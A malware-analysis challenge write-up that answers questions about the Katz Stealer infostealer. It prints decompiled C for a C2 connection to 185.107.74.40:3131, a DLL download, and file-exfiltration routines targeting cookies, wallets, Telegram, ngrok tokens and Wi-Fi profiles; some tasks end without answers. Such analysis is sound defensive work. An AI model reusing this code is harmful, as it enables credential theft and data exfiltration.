## Scenario

The internal security team received a tip that a user account may have been compromised. A suspicious executable was discovered on the computer of an employee in the Marketing department. The file was named report_update.exe and was located in the Downloads folder. Can you help us answer the following questions to support our investigation?

## Analysis Process

Analysis Challenge: https://malops.io/challenges/katz-stealer

### Task 1: What is the size in bytes of the memory block containing the sequence of pointers to country code strings?

According to [Nextron](https://www.nextron-systems.com/2025/05/23/katz-stealer-threat-analysis/)'s analysis of this malware, they say it uses the `GetLocaleInfoA` and `GetKeyboardLayout` APIs to determine its location. Following the references, this API is used in the function `sub_140006F86()`.

```c
  v0 = off_140010DA0;
  v1 = 18LL;
  v2 = &v239;
  *(_QWORD *)&v238.dwSize = 0x42003F00430019LL;
  while ( v1 )
  {
    v2->dwFileAttributes = *(_DWORD *)v0;
    v0 = (char **)((char *)v0 + 4);
    v2 = (struct _WIN32_FIND_DATAW *)((char *)v2 + 4);
    --v1;
  }
```

We see that it copies **72 bytes** from `off_140010DA0` into `v239`.

```c {5,6,7}
  LOWORD(v236.dwFileAttributes) = 0;
  BYTE2(v236.dwFileAttributes) = 0;
  LOWORD(v237.dwFileAttributes) = 0;
  BYTE2(v237.dwFileAttributes) = 0;
  KeyboardLayout = (unsigned int)GetKeyboardLayout(0);
  GetLocaleInfoA(KeyboardLayout, 0x5Au, (LPSTR)&v237, 3);
  GetLocaleInfoA(0x400u, 0x5Au, (LPSTR)&v236, 3);
  SystemDefaultLangID = GetSystemDefaultLangID();
```

Next, it calls two APIs to get the **keyboard layout** and **default system language**.

- [GetLocaleInfoA](https://learn.microsoft.com/en-us/windows/win32/api/winnls/nf-winnls-getlocaleinfoa): Use it to retrieve specific information about a designated locale (region/language).
- [GetKeyboardLayout](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeyboardlayout): Used to retrieve information about the currently active keyboard layout or to identify the input locale identifier of a specific thread.

The results are written to `v237` (keyboard language) and `v236` (system language).

```c {5}
v3 = 0LL;
do
  {
    v6 = (const char *)*((_QWORD *)&v239.dwFileAttributes + v3);
    if ( !strcmp((const char *)&v236, v6) || !strcmp((const char *)&v237, v6) )
      return 1;
    ++v3;
  }
  while ( v3 != 9 );
```

Then it takes each string in the list at v239 and compares the system language and the system language. Go to `off_140010DA0`, and you will see the following array of pointers:

```asm
.data:0000000140010DA0 off_140010DA0   dq offset aRu           ; DATA XREF: sub_140006F86+3B↑o
.data:0000000140010DA0                                         ; "RU"
.data:0000000140010DA8                 dq offset aBy           ; "BY"
.data:0000000140010DB0                 dq offset aKz           ; "KZ"
.data:0000000140010DB8                 dq offset aKg           ; "KG"
.data:0000000140010DC0                 dq offset aTj           ; "TJ"
.data:0000000140010DC8                 dq offset aUz           ; "UZ"
.data:0000000140010DD0                 dq offset aAm           ; "AM"
.data:0000000140010DD8                 dq offset aAz           ; "AZ"
.data:0000000140010DE0                 dq offset aMd           ; "MD"
```

This is a whitelist of countries that the malware deliberately ignores, confirming that the malware originates from or is sponsored by the CIS/Russia region.

### Task 2: What is the name of the enumeration type for the first parameter of GetLocaleInfoA?

The first parameter is `0x400`, which corresponds to `LOCALE_USER_DEFAULT` in the [documentation](https://learn.microsoft.com/en-us/windows/win32/intl/locale-user-default).

```c
GetLocaleInfoA(0x400u, 0x5Au, (LPSTR)&v236, 3);
```

### Task 3: What protocol is used by the malware to communicate with the C2 server?

Delving deeper into the `sub_140006F86` function, the code that establishes a connection to the C2 server is as follows:

```c {1, 6, 13,14}
  v212 = WSAStartup(0x202u, &v234);
  if ( v212 )
    return 1;
  while ( 1 )
  {
    v203 = socket(2, 1, 0);
    if ( v203 == -1LL )
    {
      WSACleanup();
      return 1;
    }
    v223.sa_family = 2;
    *(_DWORD *)&v223.sa_data[2] = inet_addr("185.107.74.40");
    *(_WORD *)v223.sa_data = htons(0xC3Bu);
    if ( connect(v203, &v223, 16) >= 0 )
      break;
    closesocket(v203);
    Sleep(0x1388u);
  }
```

First, it initializes **Winsock** using the `WSAStartup` function, then creates a TCP socket with the second parameter corresponding to `SOCK_STREAM` (TCP).

From this, we can deduce one of the important IOCs, which is the C2 server that the attacker is trying to connect to: **185.107.74.40:3131**.

### Task 4: What is the port number used by the malware to connect to the C2 server in decimal?

Based on the analysis above, the answer is `3131`.

### Task 5: What is the maximum chunk size the malware uses to download the injected DLL in hex?

Also in the `sub_140006F86` function, the malware downloaded the following malicious DLL file:

<div class="mx-auto"></div>

First, it takes the first **4 bytes** from the previously created socket to use as the DLL size. Next, execute a loop to retrieve data in chunks with a size of `4096` bytes. Then write the DLL file to the **Temp folder**.

<div class="mx-auto"></div>

Next, it calls the `CreateToolhelp32Snapshot` API to create a snapshot of all processes running at that time. Then it iterates through the process using `Process32FirstW` and kills the process if its name matches a browser saved in `v28`.

### Task 6: What is the address of the function responsible for launching browsers for injection in hex ?

Scrolling down, we see a function called with the parameter `v207`, which is an array containing browser names.

```c
  if ( !(unsigned int)sub_140002AEB(v207) )
    goto LABEL_68;
```

Let's analyze this function in more detail.

```c {74,92}
__int64 __fastcall sub_140002AEB(const char *a1)
{
  wchar_t *v1; // rdi
  __int64 i; // rcx
  wchar_t *v3; // rdi
  __int64 j; // rcx
  int v5; // eax
  const wchar_t *v6; // r8
  const wchar_t *v7; // r8
  DWORD *v8; // rdi
  __int64 k; // rcx
  struct _PROCESS_INFORMATION *p_ProcessInformation; // rdi
  __int64 m; // rcx
  __int64 v12; // rcx
  wchar_t *v13; // rdi
  unsigned int v14; // edi
  const wchar_t *v15; // r8
  int v16; // eax
  struct _PROCESS_INFORMATION ProcessInformation; // [rsp+60h] [rbp-8E8h] BYREF
  struct _STARTUPINFOW StartupInfo; // [rsp+78h] [rbp-8D0h] BYREF
  wchar_t Source[260]; // [rsp+E0h] [rbp-868h] BYREF
  wchar_t Destination[260]; // [rsp+2E8h] [rbp-660h] BYREF
  wchar_t v22[556]; // [rsp+4F0h] [rbp-458h] BYREF

  v1 = Destination;
  for ( i = 130LL; i; --i )
  {
    *(_DWORD *)v1 = 0;
    v1 += 2;
  }
  v3 = Source;
  for ( j = 130LL; j; --j )
  {
    *(_DWORD *)v3 = 0;
    v3 += 2;
  }
  v5 = strcmp(a1, "edge");
  v6 = L"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe";
  if ( !v5 )
    goto LABEL_10;
  if ( !strcmp(a1, "brave") )
  {
    v6 = L"C:\\Program Files\\BraveSoftware\\Brave-Browser\\Application\\brave.exe";
LABEL_10:
    wcscpy_s(Destination, 0x104uLL, v6);
    v7 = (const wchar_t *)"-";
    goto LABEL_12;
  }
  wcscpy_s(Destination, 0x104uLL, aC);
  v7 = &word_14001279A;
LABEL_12:
  v8 = &StartupInfo.cb + 1;
  wcscpy_s(Source, 0x104uLL, v7);
  for ( k = 25LL; k; --k )
    *v8++ = 0;
  p_ProcessInformation = &ProcessInformation;
  for ( m = 6LL; m; --m )
  {
    LODWORD(p_ProcessInformation->hProcess) = 0;
    p_ProcessInformation = (struct _PROCESS_INFORMATION *)((char *)p_ProcessInformation + 4);
  }
  v12 = 260LL;
  v13 = v22;
  StartupInfo.cb = 104;
  while ( v12 )
  {
    *(_DWORD *)v13 = 0;
    v13 += 2;
    --v12;
  }
  wcscpy_s(v22, 0x208uLL, Destination);
  wcscat_s(v22, 0x208uLL, L" ");
  wcscat_s(v22, 0x208uLL, Source);
  v14 = CreateProcessW(0LL, v22, 0LL, 0LL, 0, 0, 0LL, 0LL, &StartupInfo, &ProcessInformation);
  if ( v14 )
    goto LABEL_25;
  if ( !strcmp(a1, "chrome") )
  {
    v15 = "C";
  }
  else
  {
    v16 = strcmp(a1, "brave");
    v15 = (const wchar_t *)"C";
    if ( v16 )
      return v14;
  }
  wcscpy_s(Destination, 0x104uLL, v15);
  wcscpy_s(v22, 0x208uLL, Destination);
  wcscat_s(v22, 0x208uLL, L" ");
  wcscat_s(v22, 0x208uLL, Source);
  if ( CreateProcessW(0LL, v22, 0LL, 0LL, 0, 0, 0LL, 0LL, &StartupInfo, &ProcessInformation) )
  {
LABEL_25:
    v14 = 1;
    Sleep(0x5DCu);
    CloseHandle(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hProcess);
  }
  return v14;
}
```

The code snippet finds the corresponding `.exe` file path and then calls the `CreateProcessW` API to open the browser. Therefore, the answer will be `0x140002AEB`.

### Task 7: What is the address of the start of the loop that checks if a process matches the target browser executable name in hex?

Returning to the main handler function, we see a **do-while loop** that retrieves the process name and compares it to the desired browser.

<div class="mx-auto"></div>

Therefore, we can easily find the address of the loop, which is `0x14000755F`.

### Task 8: What is the maximum chunk size the malware uses when sending the file contents to the C2 server in hex?

Scrolling down, you'll find a piece of code that **steals Brave Wallet**.

<div class="mx-auto"></div>

The code calls the `GetFileAttributesA` API to check if the folder exists, then finds the path to Brave Wallet. Next, it uses a wildcard to list all files and creates two paths, which it then passes to the `sub_1400019C5` function.

```c
int64_t sub_1400019c5(char* arg1, char* arg2, SOCKET arg3)
{
sub_14000b730(0x1038);
FILE* _Stream = fopen(arg1, "rb");
if (_Stream)
{
    if (send(arg3, arg2, strlen(arg2) + 1, 0) != 0xffffffff)
    {
        fseek(_Stream, 0, 2);
        int32_t hostlong = ftell(_Stream);
        fseek(_Stream, 0, 0);
        uint32_t buf = htonl(hostlong);
        void var_1028;
        uint64_t rax_5;
        for (int32_t i = send(arg3, &buf, 4, 0); i != 0xffffffff;
            i = send(arg3, &var_1028, (uint32_t)rax_5, 0))
        {
            rax_5 = fread(&var_1028, 1, 0x1000, _Stream);

            if (!rax_5)
            {
                fclose(_Stream);
                return 0;
            }
        }
    }
    fclose(_Stream);
}
return 0xffffffff;
}
```

This function reads files from the victim's machine and sends them to the C2 server via socket. First, it sends the filename and size, then it loops through the file, sending up to `4096` bytes until it runs out.

### Task 9: What is the wildcard used to find Discord version folders?

According to [this blog](https://en.fmyly.com/article/where-is-discord-exe-located/), the Discord folder will have the format `app-X.X.XXX` and will be located at `AppData\Local\Discord\`. By searching for the string **"app"**, we can see how it retrieves the Discord version folder.

<div class="mx-auto"></div>

Call the `SHGetFolderPathW` API to get the path, then call the `sub_140005225` function to generate the path and find folders with the wildcard `app-*`.

### Task 10: What is the maximum number of retries for uploading the cookies copy to the C2?

In the Strings tab, search for the term **"cookies"** and you will find a function that steals cookies.

<div class="mx-auto"></div>

It uses the `format_string` function to create file paths to the folders containing Chrome cookies, such as `Default` and `Profile`. Next, it copies the `Cookies` file to the `Temp` folder. If the copy fails three times, it skips. Finally, it calls a function to upload it to C2.

### Task 11: How many important files per profile does the function attempt to find and send?

In the same function, for each profile, the malware not only steals **cookies** but also searches for files such as **History**, **Web Data**, **Login Data**, and **Downloads** to steal them.

First, it uses a list of browsers at `off_140010BE0` and for each browser it retrieves the **master key file** to decrypt cookies and passwords.

<div class="mx-auto"></div>

If it fails to steal cookies, it jumps to `LABEL_30` to proceed with stealing other important files.

<div class="mx-auto"></div>

Counting the number of calls to the `send_data_toC2` function, we get the answer as `6`.

### Task 12: How many characters long is the random ID generated for the temporary wallet dump directory?

In the function `sub_140005C06`, we see the following code:

```c {6,7,12}
  v147 = v0;
  GetTempPathA(0x104u, v29);
  strcpy((char *)v35, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789");
  v1 = 0LL;
  v2 = time64(0LL);
  v3 = GetCurrentProcessId() + v2;
  srand(v3);
  do
    v27[v1++] = *((_BYTE *)v35 + rand() % 62uLL);
  while ( v1 != 12 );
  v27[12] = 0;
  format_string(v28, 0x104uLL, "%s\\wallet_dump_%s", v29, v27);
  DirectoryA = CreateDirectoryA(v28, 0LL);
```

The malware obtains the Temp path using the `GetTempPathA` API, then combines the current process's time and PID to create a seed. Afterward, it generates a **random 12-character string** and creates a folder name using that string.

### Task 13: What is the address of the function that used to search about the telegram data?

Searching with the string **"Telegram"** will yield a piece of code that steals Telegram data.

```c
  if ( SHGetFolderPathA(0LL, 26, 0LL, 0, (LPSTR)&v247) >= 0 )
    format_string(v235, 0x104uLL, "%s\\Telegram Desktop\\tdata", (const char *)&v247);
  v73 = v236;
  ((void (__fastcall *)(SOCKET, char *, const char *))sub_140001AB2)(v206, v235, "Telegram-tdata");
```

It calls the `SHGetFolderPathA` API with the second parameter being `26`, which corresponds to retrieving the **AppData Local** path. Then it creates the path to the **Telegram tdata** folder and calls `sub_140001AB2` to send to the C2 server.

```c
int __fastcall list_and_sendtoC2(__int64 a1, const char *a2, const char *a3)
{
  HANDLE FirstFileA; // rax
  void *v4; // rsi
  char **v5; // rdi
  CHAR FileName[260]; // [rsp+44h] [rbp-494h] BYREF
  char Buffer[260]; // [rsp+148h] [rbp-390h] BYREF
  char v9[260]; // [rsp+24Ch] [rbp-28Ch] BYREF
  _WIN32_FIND_DATAA FindFileData; // [rsp+350h] [rbp-188h] BYREF

  format_string(FileName, 0x104uLL, "%s\\*", a2);
  FirstFileA = FindFirstFileA(FileName, &FindFileData);
  v4 = FirstFileA;
  if ( FirstFileA != (HANDLE)-1LL )
  {
    do
    {
      if ( strcmp(FindFileData.cFileName, ".") && strcmp(FindFileData.cFileName, "..") )// Ignore the current directory and its parent directory.
      {
        v5 = off_140015F80;                     // Check blacklist extension
        format_string(Buffer, 0x104uLL, "%s\\%s", a2, FindFileData.cFileName);
        while ( !strstr(FindFileData.cFileName, *v5) )
        {
          if ( ++v5 == &off_140015F80[12] )
          {
            if ( (FindFileData.dwFileAttributes & 0x10) != 0 )
            {
              format_string(v9, 0x104uLL, "%s/%s", a3, FindFileData.cFileName);
              list_and_sendtoC2(a1, Buffer, v9);
            }
            else
            {
              format_string(v9, 0x104uLL, "%s/%s", a3, FindFileData.cFileName);
              send_data_toC2();
            }
            break;
          }
        }
      }
    }
    while ( FindNextFileA(v4, &FindFileData) );
    LODWORD(FirstFileA) = FindClose(v4);
  }
  return (int)FirstFileA;
}
```

The function iterates through the entire directory, ignoring the current directory and its parent, and also checks the extension's blacklist. Finally, it uploads each file to the C2 server.

### Task 14: When the malware writes the CPU core count to the file, which function does it call immediately before writing?

In the strings tab, search for **"CPU"** and you will find the code that handles stealing system information.

<div class="mx-auto"></div>

### Task 15: Which configuration filename does the malware specifically look for to extract the ngrok authtoken?

In the strings tab, search for **"ngrok"** and you will find the code that handles stealing **ngrok authentication tokens**.

```c
  GetTempPathA(0x104u, (LPSTR)&v244);
  GetTempFileNameA((LPCSTR)&v244, "ngk", 0, (LPSTR)&v245);
  v108 = fopen((const char *)&v245, "w");
  if ( v108 )
  {
    v109 = getenv("USERNAME");
    if ( v109
      && (v110 = 0,
          format_string((char *)&v246, 0x104uLL, "C:\\Users\\%s\\AppData\\Local\\ngrok\\ngrok.yml", v109),
          (v111 = fopen((const char *)&v246, "r")) != 0LL) )
    {
      while ( fgets((char *)&v247, 1024, v111) )
      {
        if ( strstr((const char *)&v247, "authtoken:") )
        {
          v110 = 1;
          fputs((const char *)&v247, v108);
        }
      }
      fclose(v111);
      fclose(v108);
      if ( v110 )
        send_data_toC2();
    }
    else
    {
      fclose(v108);
    }
    DeleteFileA((LPCSTR)&v245);
  }
```

Clearly, it creates a temporary file in the Temp folder and then sends it to the C2 server.

### Task 16: What command does the malware run to list all saved WiFi profiles on the system?

In the strings tab, search for **"wifi"** and you will find the code that handles stealing **wifi password**.

<div class="mx-auto"></div>

The malware ran a shell command to retrieve a list of Wi-Fi profiles.

```cmd
netsh wlan show profiles
```

### Task 17: Which the full registry key is opened to locate the Foxmail executable path?

Just search **"foxmail"** and you'll find the code that handles it.

<div class="mx-auto"></div>

The malware reads the registry to find the Foxmail installation path; it doesn't search in **Program Files** because the victim can install it anywhere.

### Task 18: What is the address of the function used to extract gaming account data in hex?

Just search **"Game"** and you'll find the code that handles it.

